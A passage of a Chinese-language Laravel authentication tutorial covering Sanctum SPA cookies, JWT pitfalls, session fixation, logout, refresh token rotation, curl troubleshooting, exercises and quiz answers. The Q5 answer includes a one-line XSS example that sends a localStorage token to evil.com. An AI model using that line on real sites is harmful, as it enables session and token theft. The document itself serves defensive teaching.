[ "$FOUND" = 0 ] && p "★★★ 沒有發現 localStorage 存 token" || \
  f "★★★★ 前端用 localStorage 存 token（XSS 就能偷走）"

rm -f "$C"
echo -e "\n═══ ✓ $PASS  ✗ $FAIL ═══"
[ "$FAIL" -eq 0 ] || exit 1
```

---

## 常見錯誤與排錯

| 現象 | 原因 | 解法 |
| --- | --- | --- |
| **登入成功但 `/api/user` 401** ★★★ | `SANCTUM_STATEFUL_DOMAINS` 沒含前端 | 加上前端網域 |
| **同上（子網域）** ★★★ | `SESSION_DOMAIN` 沒設 | 設 `.example.gov.tw` |
| **419 CSRF token mismatch** ★★ | 沒先呼叫 `/sanctum/csrf-cookie` | 登入前先呼叫 |
| **cookie 沒被設定** ★★ | `SESSION_SECURE_COOKIE=true` + HTTP | HTTPS 三件套 |
| **登出後仍能存取** ★★★ | 沒有 `session()->invalidate()` | 補上 |
| **Session fixation** ★★★ | 沒有 `session()->regenerate()` | 登入後立刻呼叫 |
| **多台伺服器 session 不共享** ★★ | 檔案式 session | `SESSION_DRIVER=redis` |
| **JWT 無法撤銷** ★★★ | 無狀態的本質 | 短效期 + refresh + token version |
| **token 被 XSS 偷走** ★★★★ | 存 localStorage | 用 HttpOnly cookie 或記憶體 |
| 錯誤訊息洩漏帳號存在 ★★ | 分開的錯誤訊息 | 統一為「帳號或密碼錯誤」 |
| **登入端點可暴力破解** ★★★★ | 沒有限流 | `throttle:login`（IP + email） |
| refresh token 被重複使用 ★★ | 沒有 rotation | 每次換新的 + 偵測重用 |

### 排查

```bash
API=https://api.example.gov.tw
ORIGIN=https://app.example.gov.tw

# 【1】★★★ 完整的登入流程模擬
$ C=/tmp/c.txt && rm -f "$C"
$ curl -sc "$C" "$API/sanctum/csrf-cookie" -H "Origin: $ORIGIN" -o /dev/null
$ cat "$C"          # ★ 看 cookie 的 domain、Secure、HttpOnly
$ XSRF=$(grep XSRF-TOKEN "$C" | awk '{print $7}' | \
    python3 -c 'import sys,urllib.parse;print(urllib.parse.unquote(sys.stdin.read().strip()))')
$ curl -sb "$C" -c "$C" -X POST "$API/login" \
    -H "X-XSRF-TOKEN: $XSRF" -H "Origin: $ORIGIN" \
    -H 'Accept: application/json' -H 'Content-Type: application/json' \
    -d '{"email":"...","password":"..."}' -i | head -20
$ curl -sb "$C" "$API/api/user" -H 'Accept: application/json' | jq

# 【2】★★ Sanctum 設定
$ php artisan config:show sanctum
$ php artisan config:show session

# 【3】★★★ Sanctum 有沒有把請求當成 stateful
$ php artisan tinker --execute='
  $r = Illuminate\Http\Request::create("/api/user", "GET", [], [], [], [
      "HTTP_REFERER" => "https://app.example.gov.tw/dashboard",
  ]);
  dump(Laravel\Sanctum\Http\Middleware\EnsureFrontendRequestsAreStateful::fromFrontend($r));'
# ★★ 應該是 true

# 【4】★ session 記錄（SESSION_DRIVER=database 時）
$ php artisan tinker --execute='
  DB::table("sessions")->latest("last_activity")->limit(5)->get()
    ->each(fn($s) => printf("%s  user=%s  ip=%s  %s\n",
      substr($s->id,0,8), $s->user_id ?? "-", $s->ip_address,
      date("Y-m-d H:i", $s->last_activity)));'

# 【5】★ Redis 中的 session
$ redis-cli -a "$REDIS_PASSWORD" --scan --pattern '*session*' | head
$ redis-cli -a "$REDIS_PASSWORD" dbsize

# 【6】★★ Token（Sanctum）
$ php artisan tinker --execute='
  DB::table("personal_access_tokens")
    ->select("id","name","abilities","last_used_at","expires_at")
    ->latest()->limit(10)->get();'

# 【7】★★ 安全日誌
$ tail -50 /var/www/api/shared/storage/logs/security-$(date +%Y-%m-%d).log | jq -r '.message'
$ grep -c '登入失敗' /var/www/api/shared/storage/logs/security-*.log

# 【8】★★★ 前端有沒有用 localStorage
$ curl -s "$ORIGIN/" | grep -oE '/assets/[^"]+\.js' | while read -r j; do
    curl -s "$ORIGIN$j" | grep -oE 'localStorage\.[a-zA-Z]+\([^)]{0,40}' 
  done | sort -u
```

---

## 安全性注意事項

> [!danger] 認證的五條紅線 ★★★
> ```
> ① ★★★★ 不要把 token 存在 localStorage
>      → XSS 就能偷走，而且能在任何地方使用
>
> ② ★★★★ 登入端點必須限流
>      → IP（5/分鐘）+ email（3/分鐘）雙重
>      → 沒有 = 可暴力破解
>
> ③ ★★★ 登入後必須 session()->regenerate()
>      → 防 Session Fixation
>
> ④ ★★★ 錯誤訊息要統一
>      → 「帳號或密碼錯誤」（★ 不要說「此帳號不存在」）
>      → 防帳號列舉
>
> ⑤ ★★ session cookie 必須有 HttpOnly + Secure + SameSite
>      → HttpOnly：JS 讀不到
>      → Secure：只在 HTTPS 送
>      → SameSite=Lax：防 CSRF 的一層
> ```

```php
<?php
// ★★ config/session.php 的安全設定
return [
    'driver' => env('SESSION_DRIVER', 'redis'),
    'lifetime' => (int) env('SESSION_LIFETIME', 120),
    'expire_on_close' => false,
    'encrypt' => env('SESSION_ENCRYPT', false),

    'cookie' => env('SESSION_COOKIE', 'app_session'),   // ★ 不要用預設的 laravel_session
    'path' => '/',
    'domain' => env('SESSION_DOMAIN'),

    'secure'    => env('SESSION_SECURE_COOKIE', true),  // ★★★
    'http_only' => true,                                // ★★★
    'same_site' => env('SESSION_SAME_SITE', 'lax'),     // ★★

    'partitioned' => false,                             // ★ CHIPS（實驗中）
];
```

> [!warning] 密碼變更時的處理 ★★
> ```php
> <?php
> // ★★ 密碼變更後應該讓其他 session 失效
> public function updatePassword(Request $request)
> {
>     $request->validate([
>         'current_password' => ['required', 'current_password'],
>         'password' => ['required', 'confirmed', Password::defaults()],
>     ]);
>
>     $user = $request->user();
>     $user->update(['password' => Hash::make($request->password)]);
>
>     // ★★★ 讓其他裝置的 session 失效
>     Auth::logoutOtherDevices($request->password);
>
>     // ★★ 撤銷所有 API token
>     $user->tokens()->delete();
>
>     // ★ JWT：增加 token version
>     // $user->increment('token_version');
>
>     Log::channel('security')->warning('密碼已變更', [
>         'user_id' => $user->id, 'ip' => $request->ip(),
>     ]);
>
>     return response()->noContent();
> }
> ```
>
> ```
> ★★ Auth::logoutOtherDevices() 需要：
>   · AuthenticateSession middleware 已啟用
>   · ★ SESSION_DRIVER 支援（database / redis）
> ```

---

## 速查表

### ★★★ 三種方式的選擇

```
同源 / 同 eTLD+1 的 SPA  → ★★★ Sanctum SPA（HttpOnly Cookie）
手機 App / 第一方 API     → ★★ Sanctum Token
微服務 / 大規模 / 第三方  → JWT 或 OAuth2
```

### Sanctum SPA 設定

```dotenv
SESSION_DRIVER=redis                     # ★★ 多台必須
SESSION_SECURE_COOKIE=true               # ★★★
SESSION_SAME_SITE=lax
SESSION_DOMAIN=.example.gov.tw           # ★★★ 子網域時（有前導點）
SANCTUM_STATEFUL_DOMAINS=app.example.gov.tw   # ★★★
```

```php
$middleware->statefulApi();              // ★★★ bootstrap/app.php
```

```typescript
axios.create({ withCredentials: true })  // ★★★ 前端
```

### ★★★ 登入流程（兩步）

```typescript
await axios.get('/sanctum/csrf-cookie', { withCredentials: true });  // ①
await api.post('/login', { email, password });                       // ②
```

```php
Auth::login($user, $remember);
$request->session()->regenerate();       // ★★★ 防 session fixation
```

### 登出

```php
Auth::guard('web')->logout();
$request->session()->invalidate();        // ★★ 銷毀資料
$request->session()->regenerateToken();   // ★★ 換 CSRF token
```

### ★★★ Token 儲存

```
❌❌❌ localStorage        → XSS 就能偷走
⚠   sessionStorage      → 仍是 JS 可讀
✅  ★★★ HttpOnly Cookie  → JS 讀不到（最安全）
✅  ★★ 記憶體 + refresh token 存 HttpOnly cookie（跨網域時）
```

### JWT 五個陷阱 ★★★

```
① payload 是 Base64【公開可讀】→ 不放敏感資料
② ★★★★ 無法即時撤銷 → 短效期(15分) + refresh + token version
③ alg: none 攻擊 → 驗證時明確指定演算法
④ HS256 金鑰太短 → 至少 256 bit
⑤ ★★★ 存 localStorage
```

### ★★★ 五條紅線

```
① token 不存 localStorage
② ★★ 登入端點限流（IP 5/分 + email 3/分）
③ ★★ 登入後 session()->regenerate()
④ ★★ 錯誤訊息統一（防帳號列舉）
⑤ cookie 要 HttpOnly + Secure + SameSite
```

### 排查

```bash
# ★★ 完整流程
C=/tmp/c.txt
curl -sc $C https://api/sanctum/csrf-cookie -o /dev/null
cat $C                                  # ★ 看 domain/Secure/HttpOnly
XSRF=$(grep XSRF-TOKEN $C | awk '{print $7}')
curl -sb $C -c $C -X POST https://api/login -H "X-XSRF-TOKEN: $XSRF" ...
curl -sb $C https://api/api/user | jq

php artisan config:show sanctum session
verify-auth https://api.example.gov.tw https://app.example.gov.tw
```

---

## 練習題

> [!question]- 練習 1：Sanctum SPA 的完整流程 ★★★
> 1. 用 `curl` 手動走完整個登入流程（CSRF → login → /api/user）
> 2. `cat` cookie 檔看 **domain、Secure、HttpOnly、SameSite**
> 3. **不先呼叫 `/sanctum/csrf-cookie` 直接登入** → **錯誤是什麼？**
> 4. 把 `SANCTUM_STATEFUL_DOMAINS` 清空 → 登入後 `/api/user` → **結果？**
> 5. 登出後再存取 → 401 嗎？

> [!question]- 練習 2：Session Fixation ★★★
> **★ 在測試環境**
> 1. **拿掉 `session()->regenerate()`**
> 2. 用 curl 取得一個 session ID（未登入）
> 3. **用同一個 cookie 檔登入**
> 4. `cat` cookie → **session ID 變了嗎？**
> 5. 加回 `regenerate()` → 再測
> 6. **模擬攻擊**：把未登入時的 session ID 給另一個 curl，登入後那個能用嗎？

> [!question]- 練習 3：localStorage 的風險 ★★★★
> 1. 把 token 存在 `localStorage`
> 2. **在 Console 執行 `localStorage.getItem('token')`** → 拿到了嗎？
> 3. 用那個 token 在**另一個瀏覽器**呼叫 API → 成功嗎？
> 4. 改用 HttpOnly cookie → 在 Console 執行 `document.cookie`
> 5. **看得到 session cookie 嗎？**
> 6. **寫下兩者的風險比較**

> [!question]- 練習 4：帳號列舉 ★★
> 1. **分開的錯誤訊息**（「帳號不存在」/「密碼錯誤」）
> 2. 用不存在的帳號與存在的帳號各試一次 → **訊息不同嗎？**
> 3. **測量回應時間**（`curl -w '%{time_total}'`）→ 有差別嗎？
> 4. 改成統一訊息 + 假的 `Hash::check`
> 5. **再測回應時間** → 差別縮小了嗎？

> [!question]- 練習 5：Refresh Token Rotation ★★
> 1. 實作 refresh token 機制
> 2. 用 refresh token 取得新的 access token
> 3. **用「同一個」refresh token 再取一次** → **成功嗎？**
> 4. 實作 rotation + 重用偵測
> 5. 再測一次 → **所有 token 被撤銷了嗎？安全日誌有記錄嗎？**

---

## 小測驗

Q1. **Sanctum SPA、Sanctum Token、JWT 各適合什麼場景**？

Q2. **Sanctum SPA 的登入為什麼是「兩步」**？

Q3. **`session()->regenerate()` 防的是什麼攻擊**？

Q4. **登出時要做哪三件事**？

Q5. **為什麼不能把 token 存在 localStorage**？

Q6. **JWT 的 payload 是加密的嗎**？

Q7. **JWT 為什麼難以即時撤銷？有哪些解法**？

Q8. **什麼是 Refresh Token Rotation？好處是什麼**？

Q9. **登入的錯誤訊息該怎麼寫？為什麼還要防時序攻擊**？

Q10. **密碼變更後應該做什麼**？

> [!question]- 測驗答案
> **Q1.**
> **Sanctum SPA（Cookie）** —— **同源或同 eTLD+1 的 SPA**。
> **最安全**（HttpOnly cookie，XSS 偷不走）、可即時撤銷、設定最簡單。
> **這是預設的選擇**。
> **Sanctum Token** —— **手機 App、第一方 API**、需要細緻 abilities 控制的場景。
> 有狀態（每次請求查 DB），**可以即時撤銷**。
> **JWT** —— **微服務、大規模、需要無狀態擴充**的場景。
> 每次請求只驗簽章（不查 DB），擴充性最好，
> **但無法即時撤銷**，而且複雜度高、陷阱多。
> **一般的機關內部系統應該用 Sanctum SPA**。
>
> **Q2.** **因為 CSRF 防護需要先取得 token**：
> ①**`GET /sanctum/csrf-cookie`** —— Laravel 設定 `XSRF-TOKEN` cookie（與 session cookie）；
> ②**`POST /login`** —— axios（與大多數 HTTP client）**自動從 `XSRF-TOKEN` cookie
> 讀出值放進 `X-XSRF-TOKEN` 標頭**，通過 Laravel 的 CSRF 驗證。
> **漏掉第一步的症狀**：**419 Page Expired / CSRF token mismatch**。
> **注意**：`/sanctum/csrf-cookie` 必須在 `config/cors.php` 的 `paths` 中（跨網域時），
> 而且兩個請求都要 `withCredentials: true`。
> **前端應該做去重**（多個請求同時發現沒有 CSRF cookie 時只發一次）。
>
> **Q3.** **Session Fixation（會話固定）攻擊**：
> ①攻擊者先取得一個 session ID（隨便訪問一次網站就有）；
> ②用某種方式讓**受害者的瀏覽器使用那個 session ID**
> （XSS、帶 session ID 的連結、或子網域的 cookie 注入）；
> ③受害者**用那個 session ID 登入**；
> ④**如果登入後沒有更換 session ID**，
> **攻擊者手上的那個 session ID 現在已經是登入狀態** → 直接冒用。
> **解法**：`Auth::login()` 之後**立刻**呼叫 `$request->session()->regenerate();`
> —— 產生一個全新的 session ID，攻擊者手上的那個變成無效。
> **Laravel 內建的登入流程有做，但自己寫的登入邏輯很容易漏掉**。
>
> **Q4.** ①**`Auth::guard('web')->logout()`** —— 清除認證狀態；
> ②**`$request->session()->invalidate()`** ——
> **銷毀 session 中的所有資料並產生新的 session ID**
> （只做第一步的話 session 資料還在，可能被利用）；
> ③**`$request->session()->regenerateToken()`** ——
> **產生新的 CSRF token**（防止舊 token 被重用）。
> **只做 `Auth::logout()` 的症狀**：
> 「登出後仍能存取受保護的資源」或「登出後 session 資料還在」。
> 另外若有 API token，也要 `$user->currentAccessToken()->delete()`。
>
> **Q5.** 因為 **`localStorage` 的內容任何 JavaScript 都讀得到** ——
> **一個 XSS 漏洞就能把 token 傳到攻擊者的伺服器**：
> ```javascript
> fetch('https://evil.com/?t=' + localStorage.getItem('token'));
> ```
> 而且**攻擊者可以在任何地方使用那個 token**
> （沒有 `SameSite`、`Secure`、網域的限制），
> 也**沒有自動過期機制**。
> **對照 HttpOnly Cookie**：**JavaScript 完全讀不到**（`document.cookie` 看不到），
> 加上 `Secure`（只在 HTTPS 送）、`SameSite`（防 CSRF）、瀏覽器自動管理過期。
> **必須用 token 時的正確做法**：
> **access token 存記憶體（JS 變數）+ refresh token 存 HttpOnly cookie**。
>
> **Q6.** **不是。JWT 的 header 與 payload 只是 Base64URL 編碼，不是加密**。
> **任何人都能解開看內容**：
> ```bash
> echo "$TOKEN" | cut -d. -f2 | base64 -d | jq
> ```
> **簽章（第三段）只保證「內容沒有被竄改」，不保證「內容保密」**。
> **所以絕對不要在 payload 放**：密碼、身分證號、完整的個資、
> 內部 ID 對照表、詳細的權限清單、API 金鑰。
> **只放**：使用者 ID（`sub`）、過期時間（`exp`）、簽發時間（`iat`）、
> 唯一 ID（`jti`）、必要的角色標記。
> 若真的需要加密內容，要用 **JWE**（JSON Web Encryption）而不是 JWT。
>
> **Q7.** 因為 **JWT 是「無狀態」的** ——
> 伺服器**只驗證簽章與過期時間，不查詢資料庫**，
> 所以「這個 token 是否已被撤銷」的資訊**根本不存在於驗證流程中**。
> **後果**：使用者登出、被停權、密碼外洩後，
> **那個 token 在過期前仍然完全有效**。
> **三種解法**：
> ①**短效期 + refresh token** —— access token 15 分鐘，
> 撤銷 refresh token 就能在 15 分鐘內失效（最常用）；
> ②**維護黑名單**（`jti` 存 Redis）—— 但這樣就**不是無狀態了**，
> 失去 JWT 的主要優勢；
> ③**Token Version** —— 在 payload 放一個版本號，
> 與資料庫中的比對（密碼變更時 `increment`）——
> 但**每次請求都要查一次 DB**。
>
> **Q8.** **Refresh Token Rotation = 每次使用 refresh token 就換一個新的並撤銷舊的**。
> **最大的好處是「能偵測 token 被竊取」**：
> **如果一個已經被撤銷的 refresh token 又被使用**，
> 表示**有兩方持有它**（合法使用者用過一次，攻擊者也複製了一份）→
> **立刻撤銷該使用者的所有 token 並告警**：
> ```php
> if ($record->revoked_at !== null) {
>     DB::table('refresh_tokens')->where('user_id', $record->user_id)
>         ->update(['revoked_at' => now()]);
>     Log::channel('security')->critical('Refresh token 重複使用（疑似遭竊）', [...]);
>     return response()->json(['message' => '安全性問題，請重新登入'], 401);
> }
> ```
> 沒有 rotation 的話，被竊取的 refresh token **可以無限期地換取新的 access token**
> 而且完全無法察覺。
>
> **Q9.** **必須用統一的訊息「帳號或密碼錯誤」**，
> 不能分成「此帳號不存在」與「密碼錯誤」——
> 否則攻擊者可以**列舉出系統中有哪些帳號**（帳號列舉攻擊），
> 再針對那些帳號做暴力破解或社交工程。
> **為什麼還要防時序攻擊**：
> 即使訊息統一了，**「查不到使用者就直接返回」比「執行 `Hash::check`」快很多**
> （bcrypt 刻意設計成很慢，通常 50～200ms），
> 攻擊者可以從**回應時間**推測帳號是否存在。
> **解法**：查不到使用者時也執行一次假的 `Hash::check`：
> ```php
> $hash = $user?->password ?? '$2y$12$'.str_repeat('x', 53);
> $valid = Hash::check($request->password, $hash) && $user !== null;
> ```
> **真實原因記在安全日誌裡**（給稽核與偵測用），不回傳給客戶端。
>
> **Q10.** **四件事**：
> ①**★★ 讓其他裝置的 session 失效** ——
> `Auth::logoutOtherDevices($request->password)`
> （需要 `AuthenticateSession` middleware 已啟用，
> 且 `SESSION_DRIVER` 支援：database/redis）；
> ②**★★ 撤銷所有 API token** —— `$user->tokens()->delete()`；
> ③**若用 JWT：增加 token version** —— `$user->increment('token_version')`
> 讓所有舊 token 立即失效；
> ④**★ 記錄到安全日誌**（誰、什麼時候、從哪個 IP 改的密碼）。
> **為什麼重要**：使用者改密碼通常是因為**懷疑帳號被盜** ——
> 如果攻擊者的 session 還活著，改密碼就完全沒有意義。
> 另外也要**驗證目前的密碼**（`'current_password'` 規則），
> 防止有人利用已登入的 session 直接改密碼。

---

## 延伸閱讀

- [[05-Nginx-前後端流量分流設定]] — Nginx 的分流設定
- [[06-Vue-Laravel完整部署實戰]] — 完整的整合實戰
- [[09-前後端分離常見問題排查]] — 認證問題的排查
- [[03-跨網域與CORS設定]] — 跨網域的 cookie
- [[07-Laravel-正式環境安全檢查表]] — 認證的安全檢查
- [[02-應用層安全]] — 認證與授權的通用原則
